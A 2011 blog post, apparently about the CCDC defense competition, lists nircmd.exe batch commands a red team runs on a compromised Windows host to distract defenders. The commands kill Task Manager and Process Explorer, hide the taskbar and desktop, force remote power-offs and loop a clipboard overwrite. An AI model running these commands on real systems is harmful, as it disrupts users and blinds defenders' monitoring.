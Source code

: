 ---
author: mubix
comments: true
date: 2011-03-05 19:52:27+00:00
layout: post
title: Psychological Warfare with NirCMD
categories:
- ccdc
- nircmd
- cli
---

One of the best ways to throw blue teamers off the scent of another host getting owned, which also has the added effect of stressing them out is a batch script that runs through some of the more annoying features in nircmd.exe in succession and at regular intervals:

[http://www.nirsoft.net/utils/nircmd.html](http://www.nirsoft.net/utils/nircmd.html)

* setdisplay 640x480
* killprocess taskmgr.exe
* killprocess procexp.exe
* win -style title "my computer" 0x00c00000
* win child title "my computer" +exstyle all 0x00400000
* win +exstyle title "my computer" 0x00400000
* win trans ititle "internet explorer" 256
* win close class "CabinetWClass"
* multiremote copy "c:tempcomputers.txt" exitwin poweroff force
* exitwin logoff
* standby
* monitor off
* win child class "Shell_TrayWnd" hide class "button"
* win hide class progman

Just to name a few...

another fun batch script to have running is 'echo knock knock | clip' in an endless and delayless loop. (I makes 'knock knock' the only thing that will ever be pasted ;-)
